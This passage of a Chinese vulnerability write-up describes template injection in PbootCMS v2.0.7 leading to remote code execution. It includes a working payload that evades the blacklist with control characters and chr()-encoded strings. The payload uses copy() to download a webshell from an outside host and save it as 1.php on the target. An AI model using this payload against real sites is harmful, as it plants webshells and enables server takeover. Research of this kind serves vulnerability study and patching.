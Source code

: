     将payload放入模板的`if`语句中

3.  模板注入

![](/Users/aresx/Documents/VulWiki/.resource/PbootCMSv2.0.7模板注入/media/rId34.jpg)

4.  访问带有分页类且又能输出公司地址的地方

![](/Users/aresx/Documents/VulWiki/.resource/PbootCMSv2.0.7模板注入/media/rId35.png)

Getshell成功！！！

### 补充

一开始在研究这个漏洞的时候，就觉得有点麻烦，又要上传图片马，又要构造图片马的路径，不能一个payload直接打，十分麻烦。

于是就跑去问了问P师傅\*\*（P牛，永远滴神！）\*\*

P师傅理解了我的需求后，直接甩了个payload给我

![](/Users/aresx/Documents/VulWiki/.resource/PbootCMSv2.0.7模板注入/media/rId37.png)

看到后我才想起，以前就看过P师傅的一篇文章里面的一个trick：在一个函数的括号前面加入一些控制字符，PHP一样能识别改函数并执行。利用这个trick就可以执行任意函数了。

于是根据P师傅给的思路再结合程序本身的一些其他的黑名单限制，很快我就构造出了一个通用的Payload

    {pboot%3aif(copy%01(chr%01(104).chr%01(116).chr%01(116).(马赛克),chr%01(49).chr%01(46).chr%01(112).chr%01(104).chr%01(112)))}asdasdasd{/pboot%3aif}

利用一个`copy()`函数到远程服务器上下载一个webshell放在本地，这里的webshell地址通过`chr()`函数一个个还原出shell地址一个个拼接。

向模板注入该payload：

![](/Users/aresx/Documents/VulWiki/.resource/PbootCMSv2.0.7模板注入/media/rId38.jpg)

访问前台触发点：

![](/Users/aresx/Documents/VulWiki/.resource/PbootCMSv2.0.7模板注入/media/rId39.png)

则会去`http://mock.x.dnshia.cn/shell`下载webshell，并保存到`1.php`

![](/Users/aresx/Documents/VulWiki/.resource/PbootCMSv2.0.7模板注入/media/rId40.png)

参考链接
--------

> https://xz.aliyun.com/t/7628
